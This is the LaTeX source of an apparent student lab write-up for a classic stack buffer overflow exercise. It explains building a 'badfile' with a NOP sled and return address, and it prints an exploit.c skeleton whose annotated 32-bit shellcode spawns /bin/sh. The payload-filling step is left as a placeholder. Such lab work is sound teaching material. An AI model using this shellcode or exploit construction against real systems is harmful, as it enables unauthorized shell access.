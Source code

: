 \documentclass[14pt]{extarticle}
\begin{document}
\section{Task 2 - Exploiting the vulnerability}
To exploit the vulnerability I need to write a file called "badfile" that will be loaded into the stack.c program. To create the attack I need to fill the "badfile" with the hex value of the exploit code, the address of the exploit code(positioned to overwrite the return address of the bof function), and a nop sled. This could possibly be done with a normal text editor, but can be done much easier with a simple c program. I am given the start to a C program which will generate the exploit file.
\begin{lstlisting}[language=c]
 /* exploit.c */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
	// xor a register with its self to clear it
    "\x31\xc0"       /* Line 1:     xorl       %eax,%eax        */
	// push the null value to the stack
    "\x50"            /* Line 2:     pushl      %eax             */
	// push the value "//sh" to the stack, double // is used to make 32 bit number
    "\x68""//sh"     /* Line 3:     pushl      $0x68732f2f      */
	// push the value "/bin" to the stack
    "\x68""/bin"     /* Line 4:     pushl      $0x6e69622f      */
	// copy location of the name[ 0 ] parameter to register ebx
    "\x89\xe3"       /* Line 5:     movl       %esp,%ebx        */
    // push another null value to the stack
    "\x50"           /* Line 6:     pushl      %eax             */
	// push the ebx register to the stack
    "\x53"           /* Line 7:     pushl      %ebx             */
	// copy location of name parameter to register ecx
    "\x89\xe1"       /* Line 8:     movl       %esp,%ecx        */
	// sets edx to zero.
    "\x99"           /* Line 9:     cdq                         */
	// copy the value of register al to 11
    "\xb0\x0b"       /* Line 10:    movb       $0x0b,%al        */
	// create an interrupt and execute the execve command
    "\xcd\x80"       /* Line 11:    int        $0x80            */
;
void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction)*/
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here*/
    /*... Put your code here ...*/
    /*Save the contents to the file "badfile"*/
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{lstlisting}\cite{seed-bof}\\
\end{document}
